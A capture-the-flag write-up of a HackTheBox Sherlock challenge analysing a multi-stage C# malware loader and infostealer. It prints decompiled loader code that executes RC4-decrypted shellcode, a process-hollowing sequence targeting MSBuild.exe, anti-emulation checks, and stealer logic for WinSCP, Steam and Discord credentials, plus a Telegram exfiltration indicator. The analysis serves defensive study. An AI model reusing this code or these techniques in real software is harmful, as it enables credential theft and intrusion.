








import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Sherlock Scenario

An organization has requested assistance after a user followed instructions from a website claiming their system required an urgent fix. The site prompted the user to manually execute several commands to resolve the issue. Shortly afterward, the workstation began exhibiting suspicious behavior, including the execution of unknown processes and unexpected outbound network communications. The organization requires your help to analyze the provided artifacts.

## Analysis Process

I started with a `.exe` file provided by HackTheBox, and my task was to complete fifteen questions. Let's begin with the first question.

### Task 1: What compiler timestamp is embedded in the malware binary? (UTC)

For this question, we can simply use tools like **PEStudio** or **CFF Explorer** to read the file structure.

<div class="mx-auto"></div>

Here we see that the compilation time is `2089-10-01 03:41:58` UTC and it is malware written in **C#**.

### Task 2: What is the name of the suspicious packed section found in the executable?

Also in PEStudio, we see that the malware contains a suspicious section called `.CSS`. This section is not a standard section and it has very high entropy. It is very likely that this is where the malware hides its encrypted payload.

<div class="mx-auto"></div>

### Task 3: Which encryption algorithm is used by the malware?

Since the malware is written in **C#**, we will use **dnSpy** to analyze it. In the main function, the logic is as follows:

```csharp
public static void Main(string[] args)
{
    byte[] array = File.ReadAllBytes(Application.ExecutablePath);

    // Check DOS Header (MZ Signature)
    if (BitConverter.ToUInt16(array, 0) != 23117) return;

    // Get NT Header Offset (from e_lfanew at 0x3C)
    int ntOffset = BitConverter.ToInt32(array, 60);

    // Check PE Signature
    if (BitConverter.ToUInt32(array, ntOffset) != 17744U) return;

    // Read File Header: Number of Sections & Size of Optional Header
    ushort sectionsCount = BitConverter.ToUInt16(array, ntOffset + 6);
    int optHeaderSize = (int)BitConverter.ToUInt16(array, ntOffset + 20);

    // Calculate Section Table Start
    int sectionTable = ntOffset + 24 + optHeaderSize;
    bool found = false;

    try
    {
        for (int i = 0; i < (int)sectionsCount; i++)
        {
            int headerPos = sectionTable + i * 40;
            string name = Encoding.ASCII.GetString(array, headerPos, 8).TrimEnd('\0');

            // Find specific section (.CSS)
            if (name.Length >= 3 && name[1] == 'C' && name[2] == 'S')
            {
                uint rawSize = BitConverter.ToUInt32(array, headerPos + 16);
                uint rawAddr = BitConverter.ToUInt32(array, headerPos + 20);

                // Extract section content
                Program.sectionContent = new byte[rawSize];
                Array.Copy(array, (long)rawAddr, Program.sectionContent, 0, (long)rawSize);

                found = true;
                break;
            }
        }
        if (!found) return;
    }
    catch (ArgumentException) { return; }

    new Publisher();
}
```

The malware employs the **PE Section Injection** technique – embedding a payload into a custom section of the EXE file, then extracting and executing it at runtime. Next is the `Publisher` class.

```csharp
public class Publisher
{
    // Decryption key for the extracted section
    private static byte[] _key = { 0, 5, 36, 1, 2, 38, 37, 5, 21, 31, 59 };

    public Publisher()
    {
        uint oldProtect = 0U;

        // 1. Decrypt both the core logic and the extracted section data
        Program.DeleteSentence(Program.inputData, Program.inputData.Length, Program.dataKey, Program.dataKey.Length);
        Program.DeleteSentence(Program.sectionContent, Program.sectionContent.Length, _key, _key.Length);

        // 2. Change memory protection to PAGE_EXECUTE_READWRITE (64U)
        // This allows the byte array to be executed as code
        Program.VirtualProtect(ref Program.inputData[0], Program.inputData.Length, 64U, ref oldProtect);

        // 3. Execute the shellcode
        // Uses CallWindowProcA to redirect execution flow to the decrypted buffer
        Program.CallWindowProcA(ref Program.inputData[392], Program.sectionContent, 0, 0, 0);
    }
}
```

It seems the actual decoding logic lies in the `DeleteSentence` function. However, this function has been heavily **obfuscated**, so the function name and variables are almost meaningless. Using GPT, it is actually an **RC4** function used to encrypt or decrypt byte data using an XOR operation with a keystream.

```csharp
void RC4(byte[] data, int len, byte[] key, int keyLen)
{
    byte[] S = new byte[256];
    byte[] K = new byte[256];

    for (int i = 0; i < 256; i++)
    {
        S[i] = (byte)i;
        K[i] = key[i % keyLen];
    }

    int j = 0;
    for (int i = 0; i < 256; i++)
    {
        j = (j + S[i] + K[i]) % 256;
        (S[i], S[j]) = (S[j], S[i]);
    }

    int x = 0, y = 0;
    for (int k = 0; k < len; k++)
    {
        x = (x + 1) % 256;
        y = (y + S[x]) % 256;
        (S[x], S[y]) = (S[y], S[x]);
        byte keyStream = S[(S[x] + S[y]) % 256];
        data[k] ^= keyStream;
    }
}
```

### Task 4: Which WinAPI function is leveraged to execute the shellcode?

As we analyzed above, the WinAPI that the malware uses to execute shellcode is `CallWindowProcA`.

### Task 5: Which process is targeted by the shellcode for injection?

Since we already have the `inputData` and `dataKey` arrays, we can decode the shellcode to understand what it does.

```python
def rc4_decrypt(data, key):
    data = bytearray(data)
    key = bytearray(key)
    n = len(data)
    kl = len(key)
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % kl]) % 256
        S[i], S[j] = S[j], S[i] # Swap
    i = 0
    j = 0
    res = bytearray()
    for char in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i] # Swap

        keystream_byte = S[(S[i] + S[j]) % 256]
        res.append(char ^ keystream_byte)

    return res

encrypted_shellcode = bytes([
    # encrypted shellcode
])

key = bytes([92,
			102,
			121,
			128,
			113,
			104,
			212,
			200,
			111,
			37,
			50,
			69,
			96,
			76,
			234,
			96,
			208,
			253,
			98,
			100,
			81,
			137,
			30,
			48,
			163,
			184,
			164,
			191,
			123,
			212,
			74,
			195,
			119,
			36,
			4,
			61])

if not encrypted_shellcode:
    print("[-] Var encrypted_data is empty")
else:
    decrypted = rc4_decrypt(encrypted_shellcode, key)
    print("[+] Success")
    with open("decrypted_payload.bin", "wb") as f:
        f.write(decrypted)
    print("[!] Save at decrypted_payload.bin")

with open("decrypted_payload.bin", "rb") as f:
    data = f.read()
    print("".join([chr(b) if 32 <= b <= 126 else "." for b in data]))
```

After running it, you will have a `.bin` file containing the decoded shellcode. You can imagine it like this:

```cpp
resolve LoadLibraryA/GetProcAddress from kernel32;
resolve CreateProcessW, GetThreadContext, ReadProcessMemory,
        VirtualAllocEx, WriteProcessMemory, SetThreadContext, ResumeThread;

CreateProcessW(L"C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\MSBuild.exe",
               NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL,
               &si, &pi);

ctx = VirtualAlloc(...);
ctx->ContextFlags = ...;
GetThreadContext(pi.hThread, ctx);

ReadProcessMemory(pi.hProcess, remote_peb_imagebase, ...);

remoteBase = VirtualAllocEx(pi.hProcess, preferredImageBase, sizeOfImage,
                            MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

WriteProcessMemory(pi.hProcess, remoteBase, peHeaders, sizeOfHeaders, ...);

for each section:
    WriteProcessMemory(pi.hProcess,
                       remoteBase + section.VirtualAddress,
                       localPayload + section.PointerToRawData,
                       section.SizeOfRawData, ...);

SetThreadContext(pi.hThread, ctx_modified);
ResumeThread(pi.hThread);
```

The malware uses a **Process Hollowing** technique to inject a different payload into `MSBuild.exe`.

### Task 6: What technique is used to execute the second-stage payload?

As we analyzed above, that technique is called **Process Hollowing**.

### Task 7: Which Computer name does the second-stage malware check for to evade analysis environments? (lowercase)

Similarly to the above, we will also write a script to decrypt the `.CSS` section with the key that has been hardcoded in the source. We can use the **CFF Explorer** tool to dump the section.

After decoding, we will get an executable file:

```shell
$ file decrypted_payload.bin

decrypted_payload.bin: PE32 executable (GUI) Intel 80386, for MS Windows, 7 sections
```

Using IDA for analysis, the `start()` function has the following code:

```cpp {54,73,74,61}
int __stdcall start(int a1, int a2, int a3, int a4)
{
  int v4; // esi
  unsigned int v5; // eax
  int v6; // ecx
  WCHAR v8; // si
  int v10; // [esp+24h] [ebp-788h]
  DWORD nSize[2]; // [esp+44h] [ebp-768h] BYREF
  DWORD pcbBuffer[2]; // [esp+4Ch] [ebp-760h] BYREF
  __int16 v13; // [esp+54h] [ebp-758h]
  __int16 v14; // [esp+56h] [ebp-756h]
  int v15; // [esp+58h] [ebp-754h]
  int v16; // [esp+5Ch] [ebp-750h]
  int v17; // [esp+60h] [ebp-74Ch]
  int v18; // [esp+64h] [ebp-748h]
  int v19; // [esp+68h] [ebp-744h]
  int v20; // [esp+6Ch] [ebp-740h]
  int v21; // [esp+70h] [ebp-73Ch]
  int v22; // [esp+74h] [ebp-738h]
  int v23; // [esp+78h] [ebp-734h]
  int v24; // [esp+7Ch] [ebp-730h]
  int v25; // [esp+80h] [ebp-72Ch]
  int v26; // [esp+84h] [ebp-728h]
  int v27; // [esp+88h] [ebp-724h]
  int v28; // [esp+8Ch] [ebp-720h]
  WCHAR v29[256]; // [esp+90h] [ebp-71Ch] BYREF
  WCHAR v30[256]; // [esp+290h] [ebp-51Ch] BYREF
  WCHAR Buffer[260]; // [esp+490h] [ebp-31Ch] BYREF
  CHAR v32[276]; // [esp+698h] [ebp-114h] BYREF

  v28 = 130;
  pcbBuffer[1] = 33;
  v27 = 13470;
  v26 = -30944785;
  nSize[1] = 63165;
  v25 = -2111084347;
  v14 = -15516;
  v13 = 31935;
  v24 = 200;
  nSize[0] = 256;
  pcbBuffer[0] = 256;
  v4 = lstrlenW(L"CRYPT32dll");
  if ( v4 == 409 )
    GetWindowsDirectoryW(Buffer, 0x104u);
  v5 = 962;
  do
  {
    v6 = -322;
    do
      v6 += 2;
    while ( v6 );
  }
  while ( v5-- > 1 );
  if ( !GetComputerNameW(v30, nSize) )
    return 1;
  GetFullPathNameA("gdi32", 0x104u, v32, 0);
  v23 = v4 + 378;
  v22 = v4 + 620;
  v21 = v4 + 39;
  v20 = v4 + 683;
  if ( !GetUserNameW(v29, pcbBuffer) )
    return 1;
  v19 = v4 + 493;
  v18 = v4 + 220;
  GetFileType((HANDLE)0xFFFFFFFF);
  v10 = v4;
  GetModuleFileNameA(0, (LPSTR)"comctl32", 0);
  v17 = v4 + 1009;
  v16 = v4 + 86;
  v8 = v29[6];
  GetTempPathW(0x104u, Buffer);
  v15 = v10 + 31;
  if ( v29[0] != 74 || v29[5] != 111 || nSize[0] != 7 || v8 != 101 || v30[0] != 72 || v30[3] != 57 )
    sub_416050();
  return 0;
}
```

We can see that it uses two WinAPIs, `GetComputerNameW` and `GetUserNameW`, to retrieve the computer name and username. Then, if the Username is in the format `J????oe` or the ComputerName is in the format `H??9???`, execution will stop.

These things aren't enough to draw any conclusions yet, but thanks to **AI** I found a [blog post](https://harfanglab.io/insidethelab/raspberry-robin-and-its-new-anti-emulation-trick/) about this technique.

Malware compares the string pair Username and ComputerName with `JohnDoe / HAL9TH`. This is default information from the **Microsoft Defender** emulation environment, which many hackers use to avoid analysis.

### Task 8: What string does the second-stage malware register to prevent multiple executions on the same host? (Format lowercase: string)

Inside the main handler function, `sub_416050()`, we see the following code:

```cpp {13,25}
  v58[242] = 15;
  v58[241] = 13;
  *(_OWORD *)&v58[237] = xmmword_41E3B0; // approve_apri
  LOBYTE(v58[240]) = 108; // approve_april
  v0 = 1000000;
  while ( 1 )
  {
    if ( GetModuleFileNameA(0, Filename, 0x104u) )
      GetFileAttributesA(Filename);
    v1 = (const CHAR *)&v58[237];
    if ( v58[242] >= 0x10u )
      v1 = (const CHAR *)v58[237];
    v2 = OpenEventA(0x1F0003u, 0, v1);
    if ( !v2 )
      break;
    CloseHandle(v2);
    if ( !--v0 )
      goto LABEL_13;
  }
  GetEnvironmentVariableA("APPDATA", Buffer, 0x104u);
  if ( v58[242] < 0x10u )
    v3 = (const CHAR *)&v58[237];
  else
    v3 = (const CHAR *)v58[237];
  CreateEventA(0, 0, 0, v3);
```

Malware uses two functions, `OpenEventA` and `CreateEventA`, to check if the malware has run, with the event name being `approve_april`.

### Task 9: Which function address initializes the malware's internal string structure by setting the fields to zero?

In `sub_416050()`, we see several repeating patterns:

```cpp
  ((void (__thiscall *)(int *))sub_40F3B0)(&v58[249]);
  ((void (__thiscall *)(_DWORD *))sub_40F3B0)(v59);
  ((void (__thiscall *)(_BYTE *))sub_40F3B0)(v60);
  ((void (__thiscall *)(_BYTE *))sub_40F3B0)(v62);
```

Perhaps the `sub_40F3B0` function is what we're looking for:

```cpp
_DWORD *__thiscall sub_40F3B0(_DWORD *this)
{
  _DWORD *result; // eax
  result = this;
  this[2] = 0;
  *this = 0;
  this[1] = 0;
  return result;
}
```

The function takes the pointer `this`, then sets the values ​​of the three fields to `0` and returns.

### Task 10: Besides FileZilla, which other file transfer client is targeted for credential extraction?

In the strings tab, I found a rather suspicious string:

```shell
Software\\Martin Prikryl\\WinSCP 2\\Sessions
```

Looking at the references to it, I came across a function that performs the logic to steal **WinSCP** credentials.

<div class="mx-auto"></div>

This function uses APIs such as `RegOpenKeyExA`, `RegGetValueA`, and `RegEnumKeyExA`. It opens the WinSCP registry key at:

```shell
Software\\Martin Prikryl\\WinSCP 2\\Configuration
```

Next, check the **Master Password**; if it's present, the malware will skip it because it can't decrypt it.

```cpp
  if ( RegOpenKeyExA(HKEY_CURRENT_USER, "Software\\Martin Prikryl\\WinSCP 2\\Configuration", 0, 1u, phkResult) )
    goto LABEL_7;
  pcbData = 4;
  if ( RegGetValueA(phkResult[0], "Security", "UseMasterPassword", 0x10u, 0, &pvData, &pcbData) )
    goto LABEL_3;
  v12 = phkResult[0];
  if ( pvData )
  {
LABEL_5:
    if ( v12 )
      RegCloseKey(v12);
    goto LABEL_7;
  }
  if ( phkResult[0] )
  {
    RegCloseKey(phkResult[0]);
    phkResult[0] = 0;
  }
```

Next, it reads each saved session located at `Software\\Martin Prikryl\\WinSCP 2\\Sessions` and for each session it reads the `HostName`, `PortNumber`, `UserName`, and `Password`.

Additionally, it decrypts the password and saves it to the file `passwords.txt`.

<div class="mx-auto"></div>

### Task 11: What is the function address that starts crawling the Steam process by acuiring its handle?

For this question, I found the string "steam.exe" and it is referenced in the `sub_40F170` function:

```cpp
char *sub_40F170()
{
  DWORD PID; // eax
  const char *v1; // ebp
  char *v2; // eax
  char *v3; // esi
  char *v4; // edi
  unsigned int v5; // ebx
  char *Source[5]; // [esp+0h] [ebp-28h] BYREF
  unsigned int v8; // [esp+14h] [ebp-14h]

  PID = getPID("steam.exe");
  v1 = (const char *)Source;
  stolen_Steam_Session((int)Source, PID);
  ...
}
```

The main function that steals Steam accounts is `stolen_Steam_Session`, located at `0x40EE70`.

<div class="mx-auto"></div>

The function calls `OpenProcess` to get the Steam process handle, then scans memory for the string `eyAidHlwIjoiIkpXVCIs` - which is the **JWT prefix**. Finally, call the `ReadProcessMemory` API to read `520` bytes at the found address.

### Task 12: What type of authentication artifact does the second-stage malware search for in Steam's process memory?

As we analyzed in the question above, it is **JWT**.

### Task 13: What unique hardcoded identifier does this second-stage malware instance use to identify itself during data exfiltration?

In the Import tab, I see it uses **WinINet APIs**, which most likely the malware uses to communicate with the **C2 server**.

Delving deeper, I found that the `sub_402F20` function is the module that sends data to C2 via HTTP POST multipart/form-data.

<div class="mx-auto"></div>

The malware creates a multipart field named `build_id` and then calls `sub_401030()`. The value returned from `sub_401030()` is then appended to the exfil body immediately after the `build_id` field.

```cpp {8}
__int128 *sub_401030()
{
  *(__int128 *)((char *)&xmmword_42367C + 15) = *(__int128 *)((char *)&xmmword_41E040 + 15);
  BYTE1(xmmword_42367C) = 0;
  WORD1(xmmword_42367C) = 0;
  DWORD1(xmmword_42367C) = 0;
  *((_QWORD *)&xmmword_42367C + 1) = 0LL;
  strcpy((char *)&xmmword_42365C, "ee4724586a69cda3db87344f07509f40");
  byte_42369B = 0;
  return &xmmword_42365C;
}
```

### Task 14: What special marker string did the second-stage malware use in the Discord crawling process?

Similar to question 11 about Steam, I also found a function that steals Discord tokens: `sub_4145E0`.

<div class="mx-auto"></div>

Read the **Local State** file to find the Discord encryption key. Then call `StrStrA` to find the string `dQw4w9WgXcQ`, which is the **[YouTube Rick Roll video ID](https://www.youtube.com/watch?v=dQw4w9WgXcQ)** — Discord uses this string as a marker in token storage to locate the token.

### Task 15: Which messaging platform does the second-stage malware exfiltrate stolen data to?

In the strings tab of IDA, I found a **Telegram bot link**, and that's where the malware used to exfiltrate data.

```shell
https://t.me/l793oy
```

## Conclusion

This HackTheBox Sherlock challenge revealed a sophisticated multi-stage attack chain that demonstrates several advanced evasion and credential theft techniques commonly used in real-world campaigns.

### Key Findings

The attacker weaponized a deceptive website to trick users into executing commands, ultimately delivering a C# malware loader that employed multiple sophisticated techniques:

1. **Obfuscation & Encryption**: The malware used RC4 encryption with hardcoded keys and obfuscated function names to conceal its true purpose and evade signature-based detection.

2. **Process Injection**: It employed PE section injection to hide encrypted payloads within custom executable sections, combined with process hollowing to inject malicious code into a legitimate system process (MSBuild.exe).

3. **Anti-Analysis Measures**: The malware contained checks for default Microsoft Defender emulation environment artifacts (HAL9TH/JohnDoe credentials), demonstrating the attacker's awareness of common analysis platforms.

4. **Credential Theft**: Beyond stealing file transfer client credentials (FileZilla, WinSCP), the malware targeted high-value authentication tokens from Steam and Discord by directly reading process memory for JWT and session tokens.

5. **Persistence & Exfiltration**: It used Windows event objects to prevent multiple executions and communicated with command and control infrastructure via Telegram, using hardcoded identifiers for tracking compromised hosts.

### Defensive Implications

This sample highlights the importance of:

- Defending against process injection and memory scanning techniques through EDR solutions
- Monitoring suspicious API calls (VirtualProtect, WriteProcessMemory, CallWindowProcA)
- Securing credentials with master passwords in file transfer clients
- Monitoring for unusual process creation patterns, especially system binaries like MSBuild.exe
- Implementing application whitelisting and code integrity checks

The sophistication of this malware underscores why security awareness training, multi-factor authentication, and robust endpoint protection are critical layers in a defense-in-depth strategy.

<div class="mx-auto"></div>
